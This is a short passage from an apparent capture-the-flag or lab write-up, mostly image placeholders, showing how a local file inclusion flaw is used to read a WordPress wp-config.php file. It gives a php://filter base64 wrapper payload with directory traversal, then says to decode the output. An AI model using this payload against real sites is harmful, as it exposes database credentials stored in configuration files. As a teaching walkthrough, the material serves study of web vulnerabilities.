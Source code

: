 <figure><img src="../../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

The path seems to be `/var/www/html/wordpress/wp-config.php`

So from here, to inspect the php file we use a PHP Base64 wrapper to encode the path

```
php://filter/convert.base64-encode/resource=../../../../../../../../../../../var/www/html/wordpress/wp-config.php
```

<figure><img src="../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Decode it

<figure><img src="../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>
